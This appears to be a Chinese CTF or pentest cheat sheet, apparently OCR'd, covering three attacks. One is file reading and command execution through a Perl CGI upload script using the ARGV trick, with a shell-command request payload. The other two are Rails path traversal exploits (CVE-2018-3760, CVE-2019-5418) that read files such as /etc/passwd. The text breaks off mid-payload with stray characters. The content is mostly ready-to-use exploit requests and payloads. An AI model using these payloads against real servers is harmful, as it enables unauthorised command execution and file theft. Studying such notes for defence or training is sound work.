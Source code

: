 ## **perl**
```
/cgi-bin/file.pl

一个文件上传页面，
上传后回显。

代码类似使用：
use strict;
use warnings; 
use CGI;
my $cgi= CGI->new;
if ( $cgi->upload( 'file' ) ) { 
    my $file= $cgi->param( 'file' );
     while ( <$file> ) { print "$_"; }
}
```
#### **1、文件读取**
文件上传抓包，修改包加入ARGV部分(将上传的文件类型及文件内容处复制再粘贴一行，将filename去掉，然后内容填入ARGV)
再url后面加上路径，即可读取。
![](.topwrite/assets/image_1735719387896.png)



#### **2、命令执行**
文件上传抓包，修改包加入ARGV部分(将上传的文件类型及文件内容处复制再粘贴一行，将filename去掉，然后内容填入ARGV)
```
POST /cgi-bin/file.pl?/bin/bash%20-c%20ls${IFS}/| HTTP/1.1


/cgi-bin/file.pl?ls%20-l%20/%20|
```



^
## **Ruby On Rails 路径穿越漏洞（CVE-2018-3760）**
Ruby On Rails在开发环境下使用Sprockets作为静态文件服务器，Ruby On Rails是著名Ruby Web开发框架，Sprockets是编译及分发静态资源文件的Ruby库。

Sprockets 3.7.1及之前版本中，存在一处因为二次解码导致的路径穿越漏洞，攻击者可以利用%252e%252e/来跨越到根目录，读取或执行目标服务器上任意文件。

直接访问IP/assets/file:%2f%2f/etc/passwd，将会报错，因为文件/etc/passwd不在允许的目录中：
在上方的报错中随意选择一个路径利用../返回上一级，成功实现任意文件读取

payload：:8080/assets/file:%2f%2f/usr/src/blog/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/flag



## **Ruby on Rails 路径穿越与任意文件读取漏洞（CVE-2019-5418）**
在控制器中通过render file形式来渲染应用之外的视图，且会根据用户传入的Accept头来确定文件具体位置。我们通过传入\`Accept: ../../../../../../../../etc/passwd

访问 /robots ，修改 Accept: ../../../../../../../../etc/passwd{{